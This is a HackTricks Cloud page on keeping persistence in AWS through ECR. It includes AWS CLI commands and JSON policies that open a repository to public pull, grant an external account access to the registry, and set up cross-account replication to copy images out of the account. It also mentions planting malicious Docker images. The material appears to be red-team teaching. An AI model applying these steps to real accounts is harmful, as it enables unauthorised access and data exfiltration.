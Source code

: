 # AWS - ECR Persistence

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## ECR

For more information check:

{% content-ref url="../aws-services/aws-ecr-enum.md" %}
[aws-ecr-enum.md](../aws-services/aws-ecr-enum.md)
{% endcontent-ref %}

### Hidden Docker Image with Malicious Code

An attacker could **upload a Docker image containing malicious code** to an ECR repository and use it to maintain persistence in the target AWS account. The attacker could then deploy the malicious image to various services within the account, such as Amazon ECS or EKS, in a stealthy manner.

### Repository Policy

Add a policy to a single repository granting yourself (or everybody) access to a repository:

```bash
aws ecr set-repository-policy \
    --repository-name cluster-autoscaler \
    --policy-text file:///tmp/my-policy.json

# With a .json such as

{
    "Version" : "2008-10-17",
    "Statement" : [
        {
            "Sid" : "allow public pull",
            "Effect" : "Allow",
            "Principal" : "*",
            "Action" : [
                "ecr:BatchCheckLayerAvailability",
                "ecr:BatchGetImage",
                "ecr:GetDownloadUrlForLayer"
            ]
        }
    ]
}
```

{% hint style="warning" %}
Note that ECR requires that users have **permission** to make calls to the **`ecr:GetAuthorizationToken`** API through an IAM policy **before they can authenticate** to a registry and push or pull any images from any Amazon ECR repository.
{% endhint %}

### Registry Policy & Cross-account Replication

It's possible to automatically replicate a registry in an external account configuring cross-account replication, where you need to **indicate the external account** there you want to replicate the registry.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

First, you need to give the external account access over the registry with a **registry policy** like:

```bash
aws ecr put-registry-policy --policy-text file://my-policy.json

# With a .json like:

{
  "Sid": "asdasd",
  "Effect": "Allow",
  "Principal": {
    "AWS": "arn:aws:iam::947247140022:root"
  },
  "Action": [
    "ecr:CreateRepository",
    "ecr:ReplicateImage"
  ],
  "Resource": "arn:aws:ecr:eu-central-1:947247140022:repository/*"
}
```

Then apply the replication config:

```bash
aws ecr put-replication-configuration \
     --replication-configuration file://replication-settings.json \
     --region us-west-2

# Having the .json a content such as:
{
	"rules": [{
		"destinations": [{
			"region": "destination_region",
			"registryId": "destination_accountId"
		}],
		"repositoryFilters": [{
			"filter": "repository_prefix_name",
			"filterType": "PREFIX_MATCH"
		}]
	}]
}
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
